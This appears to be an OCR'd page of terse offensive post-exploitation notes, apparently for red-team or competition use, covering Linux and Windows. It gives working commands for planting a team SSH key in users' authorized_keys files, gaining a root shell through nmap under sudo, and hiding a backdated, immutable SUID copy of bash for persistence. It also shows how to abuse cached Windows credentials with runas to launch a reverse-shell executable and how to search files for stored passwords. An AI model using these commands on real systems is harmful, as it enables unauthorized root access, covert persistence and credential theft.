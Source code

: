 ### Add private key to authorized keys file
Create a team ssh key and drop it into any authorzied_keys files you can in user directories under .ssh

### Privesc for nmap if allowed by sudo
&nbsp;&nbsp;&nbsp;&nbsp;<code>echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse</code>

~~~
nmap --interactive
nmap> !sh
~~~

~~~
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
~~~

### Copy existing shells with suid and hide them for persistence 

 1. <code>cp /bin/bash /.svc</code>
 2. <code>chmod u+s /.svc & chmod u+x /.svc</code>
 3.  <code>touch -d "5 January 2021" /.svc</code>
 4.  <code>chattr +i /.svc</code>

### CMDKey stores creds on windows systems
You can cache creds through runas on windows systems which will allow anyone to runas a given user with those cached creds. Check for the following:

&nbsp;&nbsp;&nbsp;&nbsp;<code>cmdkey /list</code>
&nbsp;&nbsp;&nbsp;&nbsp;<code>runas /savecred /user:admin C:\PrivEsc\reverse.exe</code>*if you find the admin account for example, run it like this*

### Windows post compromise manual enum

&nbsp;&nbsp;&nbsp;&nbsp;<code>dir /s *pass* == *.config</code> *searches for 'pass' in all config files*

&nbsp;&nbsp;&nbsp;&nbsp;<code>findstr /si password *.xml *.ini *.txt</code> *searches for 'password' in multiple files*

&nbsp;&nbsp;&nbsp;&nbsp;<code>Findstr /simp string \\share\location\*.config</code> *searches for a string in all .config files in all directories*

&nbsp;&nbsp;&nbsp;&nbsp;<code>dir /s *pass* == *cred* == *vnc* == *.config*</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>findstr /si password *.xml *.ini *.txt</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>findstr /spin "password" *.*</code>

### Other useful windows files to check

&nbsp;&nbsp;&nbsp;&nbsp;<code>c:\sysprep.inf</code>
